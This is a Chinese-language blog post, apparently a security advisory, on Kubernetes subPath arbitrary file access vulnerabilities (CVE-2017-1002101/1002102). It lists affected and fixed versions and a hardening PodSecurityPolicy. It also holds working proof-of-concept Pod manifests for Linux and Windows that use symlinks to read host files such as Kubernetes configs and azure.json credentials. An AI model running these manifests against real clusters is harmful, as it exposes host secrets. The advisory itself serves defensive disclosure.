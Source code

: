 ```yaml
---
layout: post
title: Kubernetes 任意文件访问漏洞
date: 2018-03-21 20:17:18
tags: kubernetes
---
```


前段时间 Kubernetes 发布了一系列的安全更新，修复了一个因 subpath 处理不当导致的任意文件访问漏洞（[CVE-2017-1002101](https://github.com/kubernetes/kubernetes/issues/60814)和 [CVE-2017-1002102](https://github.com/kubernetes/kubernetes/issues/60814)）。受该漏洞影响的版本包括

- Kubernetes 1.3.x-1.6.x
- Kubernetes 1.7.0-1.7.13
- Kubernetes 1.8.0-1.8.8
- Kubernetes 1.9.0-1.9.3

建议所有使用 Kubernetes 的生产用户更新到修复版本

- v1.7.14（ [#61047](https://github.com/kubernetes/kubernetes/pull/61047)）
- v1.8.9 （[#61046](https://github.com/kubernetes/kubernetes/pull/61046)）
- v1.9.5 （[#61045](https://github.com/kubernetes/kubernetes/pull/61045) [#61080](https://github.com/kubernetes/kubernetes/pull/61080)，注意 v1.9.4 存在 subPath 无法在 Secret 等 Volume 中使用的问题，建议直接跳过该版本）
- v1.10（将在未来几天发布）

除了升级集群版本之外，建议使用 PodSecurityPolicy 禁止 hostPath 存储卷，如

```yaml
apiVersion: extensions/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restricted
  annotations:
    seccomp.security.alpha.kubernetes.io/allowedProfileNames: 'docker/default'
    apparmor.security.beta.kubernetes.io/allowedProfileNames: 'runtime/default'
    seccomp.security.alpha.kubernetes.io/defaultProfileName:  'docker/default'
    apparmor.security.beta.kubernetes.io/defaultProfileName:  'runtime/default'
spec:
  privileged: false
  # Required to prevent escalations to root.
  allowPrivilegeEscalation: false
  # This is redundant with non-root + disallow privilege escalation,
  # but we can provide it for defense in depth.
  requiredDropCapabilities:
    - ALL
  # Allow core volume types.
  volumes:
    - 'configMap'
    - 'emptyDir'
    - 'projected'
    - 'secret'
    - 'downwardAPI'
    # Assume that persistentVolumes set up by the cluster admin are safe to use.
    - 'persistentVolumeClaim'
  hostNetwork: false
  hostIPC: false
  hostPID: false
  runAsUser:
    # Require the container to run without root privileges.
    rule: 'MustRunAsNonRoot'
  seLinux:
    # This policy assumes the nodes are using AppArmor rather than SELinux.
    rule: 'RunAsAny'
  supplementalGroups:
    rule: 'MustRunAs'
    ranges:
      # Forbid adding the root group.
      - min: 1
        max: 65535
  fsGroup:
    rule: 'MustRunAs'
    ranges:
      # Forbid adding the root group.
      - min: 1
        max: 65535
  readOnlyRootFilesystem: false
```

## 漏洞示例

### Linux

使用 SubPath 和软链接的形式可以访问 Host 上面的任意文件（且适用于任何类型的存储插件）：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: subpath
spec:
  initContainers:
  - name: symlink
    image: "alpine"
    command: ['ln', '-s', '/etc/kubernetes', '/data/vol']
    volumeMounts:
    - name: volume01
      mountPath: /data/
  containers:
  - name: sh
    image: "alpine"
    command: ["sh"]
    stdin: true
    tty: true
    volumeMounts:
    - name: volume01
      subPath: vol
      mountPath: /test
  volumes:
  - name: volume01
    emptyDir: {}
```

```sh
# 可以在 Volume 中看到 Kubernetes 的配置
$ kubectl exec -i -t subpath ls /test
azure.json     certs          manifests      volumeplugins
```

### Windows

使用 SubPath 和软链接的形式可以访问 Host 上面的任意文件（且适用于任何类型的存储插件）：

```sh
apiVersion: v1
kind: Pod
metadata:
  name: subpath-win
spec:
  initContainers:
  - name: symlink
    image: microsoft/iis
    command:
    - cmd.exe
    - /c
    - mklink /J c:\data\kubernetes c:\k
    volumeMounts:
    - name: volume01
      mountPath: /data
  containers:
  - name: cmd
    image: microsoft/iis
    volumeMounts:
    - name: volume01
      subPath: kubernetes
      mountPath: /test
  volumes:
  - name: volume01
    emptyDir: {}
  nodeSelector:
    beta.kubernetes.io/os: windows
```

```sh
# 可以在 Volume 中看到 Kubernetes 的配置
$ kubectl exec -i -t subpath-win powershell ls /test

    Directory: C:\test


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/13/2018   8:13 AM                cni
d-----         3/7/2018   4:43 AM                volumeplugins
-a----         3/7/2018   4:43 AM            635 azure.json
-a----         3/7/2018   4:43 AM           9446 config
```

